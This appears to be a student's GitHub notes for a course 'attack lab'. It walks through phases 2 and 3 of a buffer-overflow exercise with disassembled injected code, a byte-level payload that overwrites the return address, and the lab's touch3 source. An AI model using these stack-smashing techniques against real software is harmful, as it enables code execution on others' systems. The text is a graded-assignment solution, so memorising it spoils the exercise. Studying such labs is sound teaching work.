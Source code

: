         - Place byte representation of code into buffer space and fill the rest with empty bytes
        - Replace return address with the address of the code (where rsp points to the code)
        - Write address of touch2 above the address of code so that the retq of code will go to touch2
```
cookie: 0x78f1ad5f
rsp: 0x556164c0
0x556164c0 - buffer (56, 0x38) = 0x55616488
address of touch2: 40189a

0:	48 c7 c7 5f ad f1 78 	mov    $0x78f1ad5f,%rdi
7:	68 9a 18 40 00       	pushq  $0x40189a			// address of touch2
c:	c3                   	retq   
                                                                 
48 c7 c7 5f ad f1 78		// code injection 
68 9a 18 40 00
c3 00 00 00
00 00 00 00 00 00 00 00		// padding (56, 0x38)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 64 61 55 00 00 00 00		// rsp - 0x38
```
```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
- Phase 3
    - Call touch3 after setting rdi to pointer
    - String representation: cookie of 0x123 must read "123" in ASCII code format
    - Instructions
        - Convert cookie to its string representation using man ascii
        - Figure out where cookie string will be placed (cannot be inside buffer space), will place it at the very top of stack after touch3 address is written so that line will never be called
        - The address in the stack where cookie string is stored will be the pointer, write code that stores that location into rdi
        - Place the byte representation of that code (compile then disas) inside the buffer and fill the rest with 00 padding
        - Place the address of $rsp where it points to the injected code in buffer so that code will be run first (setting rdi to address of cookie string)
        - Write the address of touch3 so that the program will go to touch3 after injected code returns
```
touch3: 40196e
cookie: 0x78f1ad5f = 37 38 66 31 61 64 35 66

```